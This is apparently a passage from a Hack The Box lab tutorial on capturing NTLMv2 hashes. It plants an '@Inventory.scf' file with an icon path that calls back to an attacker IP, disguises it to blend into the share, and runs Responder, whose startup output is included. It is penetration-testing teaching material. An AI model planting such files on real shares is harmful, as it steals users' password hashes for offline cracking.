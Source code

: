 #### Malicious SCF File

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

Interacting with Users

```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

#### Starting Responder

Next, start Responder on our attack box and wait for the user to browse the share. If all goes to plan, we will see the user's NTLMV2 password hash in our console and attempt to crack it offline.

Interacting with Users

```shell-session
swmpdnky@htb[/htb]$ sudo responder -wrf -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

```